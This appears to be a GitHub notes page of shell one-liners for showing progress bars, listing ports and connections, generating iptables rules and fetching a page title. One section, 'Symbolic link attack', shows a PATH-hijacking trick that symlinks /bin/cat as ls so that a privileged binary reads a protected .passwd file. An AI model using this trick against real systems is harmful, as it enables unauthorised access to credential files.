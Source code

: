 ###  Create a progress bar over entire window until we count to 1000

```sh
seq 1000 |parallel -j30 --bar '(echo {};sleep 0.1)'
```

### Ports we probably wanna set as accpepted in our iptable chains

```sh
lsof -i -nlP|awk '{print $9, $8, $1}'|sed 's/.*://'|sort -u
```

### For add those ports to iptable: 

![Screenshot_20220702_213112](https://user-images.githubusercontent.com/26827453/177014062-ff15b9e5-5d59-49fb-b387-d89eb022bc34.png)

```sh
lsof -i -nlP|awk '{print $9}'|sed 's/.*://'|sort -u|column -t | \
	sed 's/^/iptables -A INPUT -p TCP --dport /g'\
	|sed 's/$/ -m state --state NEW -j ACCEPT/g
```
### Print all ips that we have a conection with atm

```sh
netstat -lantp | grep ESTABLISHED |awk '{print $5}' | awk -F: '{print $1}' | sort -u
```

### Symbolic link attack 
```sh
int main(void)
{
        system("ls /path/to/.passwd");
        return 0;
}
```

### Then run: 

```sh
ln -s /bin/cat /tmp/ls
ls -l /tmp/ls
PATH=/tmp
echo $PATH
./binary1
```

### Print title of website:

```sh
echo -e "URL Title: $(curl -s $1|grep -i title|cut -d'<' -f2|cut -d'>' -f2)"
```
